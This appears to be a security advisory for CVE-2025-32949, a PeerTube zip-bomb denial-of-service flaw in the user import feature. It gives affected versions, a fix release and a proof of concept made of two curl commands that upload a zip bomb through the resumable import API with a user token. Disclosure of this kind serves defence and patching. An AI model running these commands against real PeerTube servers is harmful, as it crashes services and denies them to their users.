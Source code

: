 ```yaml
---
description: CVE-2025-32949 Medium severity. PeerTube User Import Authenticated Resource Exhaustion
title: PeerTube User Import Authenticated Resource Exhaustion
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32949
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
This vulnerability allows any authenticated user to cause the server to consume very large amounts of disk space when extracting a Zip Bomb



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
The yauzl library does not contain any mechanism to detect or prevent extraction of a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb). Therefore, when using the User Import functionality with a Zip Bomb, PeerTube will try extracting the archive which will cause a disk space resource exhaustion.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a Zip Bomb named `evil.zip` in the current directory
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will begin extracting the zip file, which will cause disk space resource exhaustion.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)

[PoC Materials](https://drive.google.com/file/d/1zmXFNutT4ACOJZGmxhU22nhu9Fbn4ui2/view?usp=drive_link)
